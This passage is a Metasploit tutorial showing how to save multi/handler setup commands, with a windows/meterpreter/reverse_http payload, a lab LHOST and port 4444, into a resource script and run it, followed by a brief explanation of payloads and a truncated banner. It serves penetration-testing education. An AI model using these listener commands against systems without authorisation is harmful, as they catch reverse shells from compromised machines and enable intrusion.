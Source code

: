 Let's create our own simple to start a multi/handler necessary to receive connections.

    kali > msfconsole
    
    msf5 > use exploit/multi/handler
    
    msf5 > set PAYLOAD windows/meterpreter/reverse_http
    
    msf5 > set LHOST 192.168.181.128
    
    msf5 > set LPORT 4444

When we have completed all the commands we want in the scripts, we simply use the keyword "makerc" followed by the name of the script. For instance, I named the script handler_http.rc. ( a multi/handler for HTTP followed by the Metasploit extension for resource files,rc)

  

    msf5 > makerc handler_http.rc

Metasploit saves each of those commands into that script file.

**Check the Scripts Contents**

If checking the script file, we can use one of the many commands in Linux to display the contents of a file such as cat, less, and more.

    msf5 > more handler_http.rc

  

**Executing Our New Script File**

    msf5 > resource handler_http.rc

Metasploit will run each of the commands in our script automatically. Now simply enter "exploit" to start our handler.

    msf5 > exploit

  

**Starting the Script Automatically with Metasploit**

    kali > msfconsole -r handler_http.rc

  

**PAYLOADS**

  

Metasploit enables us to use pre-written exploits against known vulnerabilities in operating systems, browsers, and other applications and place a rootkit/listener/payload on the target system. These payloads are what enable us to connect to the target system and use it as our own after we have exploited a vulnerability in its system.

  

    kali > msfconsole

2384 exploits - 1235 auxiliary - 418 post ]

+ -- --=[ 1391 payloads - 46 encoders - 11 nops ]

+ -- --=[ 9 evasion
